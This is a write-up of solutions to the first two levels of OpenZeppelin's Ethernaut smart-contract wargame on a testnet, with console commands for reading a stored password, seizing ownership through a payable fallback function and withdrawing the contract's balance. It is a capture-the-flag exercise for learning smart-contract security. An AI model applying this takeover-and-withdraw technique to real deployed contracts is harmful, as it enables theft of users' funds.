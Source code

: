 # OpenZeppelin - Ethernaut

The [Ethernaut](https://ethernaut.openzeppelin.com/) is a Web3/Solidity-based wargame inspired by [overthewire.org](https://overthewire.org/), played in the Ethereum Virtual Machine. Each level is a smart contract that needs to be 'hacked'. Here are the writeups of my solutions for all the levels.

First, connect your wallet and make sure you are on a **testnet**.

## 0. Hello Ethernaut

It was more of an introductory level, helping you set up for the upcoming levels and giving bits of the basic but necessary information. [Create](https://sepolia.etherscan.io/tx/0x2acde9eb4f1a84eccdc86056da1dc9c3513b7d76c2b16f22b4b29e59f402e2b8) your [level instance](https://sepolia.etherscan.io/address/0x7430be47aac4dcf367fa4d9be04883d8be2441cb).

Then, look into `contract.info()` and complete the level:

```js
> await  contract.info()
'You will find what you need in info1().'
> await  contract.info1()
'Try info2(), but with "hello" as a parameter.'
await  contract.info2("hello")
'The property infoNum holds the number of the next info method to call.'
> await contract.infoNum()
words:
Array(2)
0:42
> await contract.info42()
'theMethodName is the name of the next method.'
> await contract.theMethodName()
'The method name is method7123949.'
> await contract.method7123949()
'If you know the password, submit it to authenticate().'
```

Okay, we don't know the password, but there is a method with that name:

```js
> await contract.password()
'ethernaut0'
```

Let's [authenticate](https://sepolia.etherscan.io/tx/0x584d4d7b2ec5ebf18a7072afb4728067d78bc742d20330905a81b19db50f2daf):

```js
> await contract.authenticate("ethernaut0")
```

Once the tx is confirmed, [submit](https://sepolia.etherscan.io/tx/0x6d788da493953ea7e23671b338dae1f0b96ad6a510ba16591575325b01bfc961) the level, and congrats you cleared your first ethernaut level!!

## 1. Fallback

First, [create](https://sepolia.etherscan.io/tx/0x1b3075a4642dec18d4f8d640766b5d8763330f60543a59a9bc9ba6616f5efeed) the [level instance](https://sepolia.etherscan.io/address/0x6d660aE836b7E481E9b3cFa8E01478eFBb743897):

> You will beat this level if you claim ownership of the contract and you reduce its balance to 0.
> Things that might help:
>
> - How to send ether when interacting with an ABI
> - How to send ether outside of the ABI
> - Converting to and from wei/ether units (see help() command)
> - Fallback methods

Let's check who is the **owner**:

```js
> await contract.owner()
'0x3c34A342b2aF5e885FcaA3800dB5B205fEfa3ffB'
```

[Call](https://sepolia.etherscan.io/tx/0x7b0ebf56fc14bc05113d9377994dafacba3005b5ef34e30ffb089f60bc779ee6) the `contribute()` method with the right amount of `ether` to pass the condition.

```js
await contract.contribute({ value: toWei("0.0001", "ether") });
```

The Smart Contract has a `payable fallback` receive funcion so we will just [send](https://sepolia.etherscan.io/tx/0xcf49a66ada6dc7a296927bd10ef428ead9e2aae94b4e99c4a5a3babb83ee3fab) a tx with some amount of `ether` and empty data to call it:

```js
> await sendTransaction({
  to: "0x6d660aE836b7E481E9b3cFa8E01478eFBb743897",
  value: toWei("0.0001", "ether"),
  from: "0xb8b74dc6bce6b16dcd634ab94600a3c9967e6f0d",
});
"0xcf49a66ada6dc7a296927bd10ef428ead9e2aae94b4e99c4a5a3babb83ee3fab"
```

Let's see who is the **owner** now:

```js
> await contract.owner();
"0xB8b74Dc6bce6B16dcd634aB94600a3c9967E6F0D"
```

I'm the **owner** now so I can [withdraw](https://sepolia.etherscan.io/tx/0x7fb9e0d63c4b14028f3d37b8d2779c1a2e9457d079e408fe4060519735064dd2) everything 😎:

```js
> await contract.withdraw()
{tx: '0x7fb9e0d63c4b14028f3d37b8d2779c1a2e9457d079e408fe4060519735064dd2'}
```

[Submit](https://sepolia.etherscan.io/tx/0x12f7e4ff905d3609f595709d4296be0e6e607a9ac046bee183bb331567892131) level instance to finish.
